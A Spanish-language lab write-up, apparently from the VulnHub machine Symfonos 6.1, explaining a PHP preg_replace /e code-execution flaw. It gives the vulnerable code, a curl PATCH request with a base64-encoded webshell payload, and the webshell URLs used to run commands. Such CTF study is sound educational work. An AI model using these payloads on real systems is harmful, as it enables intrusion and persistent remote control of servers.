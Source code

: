 # Explotación de vulnerabilidad con `preg_replace /e` y uso de `file_put_contents`

## Contexto del ataque

Hemos explotado una API vulnerable que nos permitía modificar el contenido de la web. El origen de la vulnerabilidad se encuentra en el uso inseguro de la función `preg_replace` con el modificador `/e`, que permite la ejecución de código arbitrario.

El ataque consistió en enviar una petición `PATCH` a la API con un payload malicioso que aprovechaba esta vulnerabilidad para ejecutar código en el servidor.

**Nota:** para este ejemplo nos servimos de la explotación realizada en la [Máquina Symfonos 6.1](https://www.vulnhub.com/entry/symfonos-61,458/)

## Código vulnerable

```php
<div class="container">
    <div class="col-md-12">
        <?php
        while ($row = mysqli_fetch_assoc($result)) {
            $content = htmlspecialchars($row['text']);
            
            echo $content;
        
            preg_replace('/.*/e',$content, "Win");
        }
        ?>
    </div>
</div>
```

**Ejemplo de Explotación:**
Este fragmento de código puede ser atacado de la siguiente forma:
```php
<?php
// Simulación de entrada maliciosa:
$input = "file_put_contents('exploit.php', '<?php echo shell_exec($_GET[\'cmd\']); ?>')";

// Ejecución a través de `preg_replace`:
preg_replace('/.*/e', $input, "Win");
?>
```
En este caso, se creará en el servidor un archivo malicioso `exploit.php` que permitirá la ejecución remota de comandos.

---

## Petición enviada

El payload se inyectó a través de una petición `PATCH`:

```bash
curl -s -X PATCH "http://<IP_OBJETIVO>:5000/ls2o4g/v1.0/posts/1" \
 -H "Content-Type: application/json" \
 -b "token=<JWT>" \
 -d $'{"text": "file_put_contents(\'cmd.php\', base64_decode(\'PD9waHAKICBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsKPz4K\'))"}'
```

En este caso, el campo `text` contiene código PHP que será ejecutado por el `preg_replace` vulnerable.

## Payload utilizado

El payload que se ejecuta en el servidor es:

```php
file_put_contents('cmd.php', base64_decode('PD9waHAKICBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsKPz4K'));
```

### Explicación

1. **`file_put_contents()`**  
    Es una función nativa de PHP que escribe datos en un archivo. En este caso:
    
    - El primer argumento `'cmd.php'` indica el nombre del archivo a crear.
        
    - El segundo argumento es el contenido que se va a escribir.
        
    
    Esta función simplifica lo que antes se hacía con `fopen` + `fwrite` + `fclose`.
    
2. **`base64_decode()`**  
    Dentro de `file_put_contents` se decodifica un payload en base64. Ese payload corresponde al siguiente código PHP:
    
    ```php
    <?php
      system($_GET['cmd']);
    ?>
    ```
    
    Este es un webshell muy simple que ejecuta cualquier comando del sistema que se le pase como parámetro `cmd` en la URL.
    
---

### Ejemplo completo de payload:
```php
<?php
// Crear un webshell
file_put_contents('cmd.php', '<?php system($_GET["cmd"]); ?>');
?>
```

### Resultado

Al ejecutar el payload, se crea en el servidor un archivo `cmd.php` con el siguiente contenido:

```php
<?php
  system($_GET['cmd']);
?>
```

De esta manera, conseguimos una puerta trasera persistente en el servidor y podemos ejecutar comandos de forma remota.

## Uso del webshell

Una vez creado `cmd.php`, podemos ejecutar comandos accediendo a la URL:

```
http://<IP>/cmd.php?cmd=whoami
http://<IP>/cmd.php?cmd=ls -la
```

Esto nos da control sobre el sistema comprometido.

## Conclusión

La vulnerabilidad se origina en el uso inseguro de `preg_replace` con el modificador `/e`, que permite la ejecución de código arbitrario. Aprovechamos esta debilidad para ejecutar un payload que nos da acceso remoto al servidor.